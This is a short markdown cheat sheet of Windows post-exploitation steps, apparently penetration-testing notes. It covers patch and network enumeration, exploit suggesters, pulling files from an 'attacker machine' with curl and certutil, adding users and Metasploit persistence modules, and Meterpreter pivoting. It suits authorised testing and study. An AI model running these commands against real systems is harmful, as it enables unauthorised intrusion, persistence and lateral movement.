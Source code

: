 ##  Information collection

List of installed patches

    wmic qfe get Caption,Description,HotFixID,InstalledOn
 
 
Network connections

    netstat -r    # route info
    
    netstat -ano  # connections and the PID
    
    route print
    
    
Processes
 
     tasklist
    
    

Arp table

    arp -a

-------------------------------------------------------------------------------------

## Exploits

   
Auto finding exploits based on system information and installed patches
 
    cmd.exe /c systeminfo > systeminfo.txt

    ./winpwnSuggester.py --update

    ./winpwnSuggester.py --database YYYY-MM-DD-mssb.xls --systeminfo ~/sysinfo.txt
  
    [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)


metasploit exploit suggester module

    post/recon/local_exploit_suggester

-------------------------------------------------------------------------------------

## Downloading files from attacker machine 

    curl http://<ip>:8000/<file> -O <file>
    
    certutil.exe -urlcache -f http://<ip>:8000/<file>
    
    Naviage directly through browser 
    
    ftp <ip>   #On attacker machine: python -m pyftpdlib 21  

    upload  #If using meterpreter


 ## Maintain persistence

  - Add user
  
        net user <username> <pass> /add

  - Metasploit
  
        exploit/windows/local/persistence
        
        exploit/windows/local/registry_persistence

        run persistence -h

  - Set a scheduled task


## Pivoting

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network
       
       
## Escalating privilege

[Token impersonation](https://github.com/Kahvi-0/Vulnerabilities-and-Exploitations/blob/master/Local/Token%20Impersonation.md)

# Find more

 Metasploit:
 
   post/winodws/
